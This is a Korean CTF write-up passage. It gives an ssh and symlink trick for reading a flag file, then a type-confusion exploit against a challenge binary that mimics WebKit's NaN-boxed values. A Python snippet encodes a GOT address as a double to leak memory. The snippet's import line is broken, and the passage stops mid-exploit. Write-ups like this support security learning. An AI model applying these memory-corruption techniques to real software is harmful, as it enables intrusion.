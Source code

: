 

이 문제를 풀기 위해서는 먼저 `/bin/sh`로 접속해야한다. 다음과 같은 명령을 사용하면 된다. (thx to realsung)

```bash
ssh pwn@pwn.kosenctf.com -p9022 /bin/sh
```



그 이후 tmp 디렉토리에서 flag.txt 파일을 `symbolic link`를 걸고 해당 파일을 읽으면 된다. (thx to posix)

![1](https://user-images.githubusercontent.com/43925259/92325648-4198b700-f087-11ea-8849-b8aa0685f3ba.PNG)



---



## confusing (393 pts, 10 solves)

굉장히 재미있는 문제였다. 출체자의 정성이 느껴지는 문제였다. 이 문제는 String, Interger, double 세가지 type의 변수에 대하여 set, print, delete를 할 수 있는 기능을 구현해놓았다.



먼저 type.h의 주석을 확인해보자.

```c
/*
 * Do you know how WebKit keeps variables in memory?
 *
 * > The top 16-bits denote the type of the encoded JSValue:
 * >
 * >     Pointer {  0000:PPPP:PPPP:PPPP
 * >              / 0001:****:****:****
 * >     Double  {         ...
 * >              \ FFFE:****:****:****
 * >     Integer {  FFFF:0000:IIII:IIII
 *
 * How smart it is! I implemented this structure in C :)
 * I hope I made it right......
 *
 * Read the following code for more information:
 *  - https://github.com/adobe/webkit/blob/master/Source/JavaScriptCore/runtime/JSValue.h
 */
```

출제자가 친절하게 설명해놓았다. Pointer(String)는 첫 2byte가 0000이고, Integer는 첫 2byte가 FFFF이고 Double은 그외의 값을 가진다. 문제 이름 및 문제 컨셉을 보면 `Type Confusion`을 유도한 문제이며 **Double 값을 Pointer로 인식 시켜서 aar**을 만들 수 있다.

 

`free_got`를 double로 set하고 print를 하면 leak이 가능하다.

```python
from struct import struct

def p64_(s):
    return str("%.800f" % unpack("<d", p64(s))[0])

Set(0, 2, p64_(e.got['free']))
Show()
```
